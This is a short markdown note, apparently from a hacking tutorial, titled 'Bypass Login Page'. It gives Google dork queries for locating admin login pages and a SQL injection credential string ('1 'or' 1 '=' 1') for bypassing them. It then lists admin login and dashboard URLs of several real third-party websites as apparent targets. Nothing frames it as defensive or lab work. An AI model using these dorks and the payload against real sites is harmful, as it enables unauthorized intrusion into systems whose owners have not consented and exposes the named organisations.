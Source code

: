 # 4) Bypass Login Page

## Domain link:

https://en.wikipedia.org/wiki/List_of_internet_top-level_domains

<hr>

## Browser Link:

https://sourceforge.net/projects/getmantra/?fbclid=WAR3Bewig4usDnKpJMs31MwjSQBX2uf1d_WT_IT7bskKINMSDKWkvijVEC

<hr>

## Dork:

intitle: "index" of "admin" site:.in
intitle: "index" of "admin" "image" site:.in // image, news, gallary, picture, video

inurl:/admin/login.php
inurl:/admin/index.php
inurl:/adminlogin.php

ser & password "1 'or' 1 '=' 1"

<hr>

- http://www.neccoal.co.in/admin/login.php
- http://lplt20.co.uk/admin/login.php
- http://www.egramin.co.in/admin/login.php
- http://www.lvrcarpet.com/admin/index.php http://www.lvrcarpet.com/admin/dashboard.php
- http://app.dwasa.org.bd/admin/index.php
- http://www.khandelwalshaadi.com/admin/login.php
- http://cancunazul.com/admin/login.php
- http://www.misanalyticsconsultants.com/admin/index.php http://www.misanalyticsconsultants.com/admin/dashbaord.php
- http://www.mcubez.com/admin/login.php
